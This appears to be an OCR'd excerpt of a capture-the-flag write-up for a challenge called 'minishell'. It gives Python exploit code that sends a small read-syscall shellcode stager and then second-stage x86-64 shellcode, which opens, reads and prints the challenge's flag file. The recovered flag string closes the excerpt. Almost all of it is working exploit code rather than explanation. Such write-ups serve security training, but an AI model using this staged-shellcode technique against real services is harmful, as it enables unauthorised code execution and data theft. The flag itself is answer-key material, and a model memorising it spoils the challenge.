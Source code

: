 ```
sc = """
    mov al, 0
    mov dl, 0xff
    syscall
    """

r.send(asm(sc))
sleep(0.5)

# open('/home/minishell/flag.txt')
# read(fd[rax], buf, 0x30)
# write(1, buf, 0x30)
# exit()
sc = """
    mov rax, 2
    mov rdi, rsi
    add rdi, 83
    mov rsi, 0
    mov rdx, 0
    syscall
    mov rsi, rdi
    mov rdi, rax
    mov rax, 0
    mov rdx, 0x30
    syscall
    mov rax, 1
    mov rdi, 1
    syscall
    mov rax, 60
    syscall
    """

r.sendline('AAAAAA' + asm(sc) + '/home/minishell/flag.txt\x00')
r.interactive()
```

Flag: `CTF-BR{s0000_t1ght_f0r_my_B1G_sh3ll0dE_}`

